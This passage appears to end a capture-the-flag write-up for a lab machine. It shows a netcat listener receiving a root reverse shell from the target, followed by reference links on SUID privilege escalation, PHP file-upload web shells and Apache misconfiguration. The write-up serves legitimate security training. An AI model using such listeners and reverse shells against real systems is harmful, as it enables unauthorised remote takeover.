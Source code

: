 ```
# nc -nvlp 9999
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.185] 45218
whoami
root
```

## Thoughts

This is an enjoyable box that reinforces some fundamental skills.

**SUID**

* https://percussiveelbow.github.io/linux-privesc/
* https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

**PHP Unrestricted File Upload**

* https://www.w3schools.com/php/php_file_upload.aspo
* https://www.whitewinterwolf.com/posts/2017/12/02/wwwolfs-php-webshell-users-guide/
* https://security.stackexchange.com/questions/213641/why-does-the-file-shell-php-jpg-can-execute-as-a-php-file-but-shell-jpg-cann
* https://www.pivotpointsecurity.com/blog/secure-file-upload-attack-vulnerabilities/

**Apache Misconfiguration**

* https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler
* https://www.apachelounge.com/viewtopic.php?t=7763 
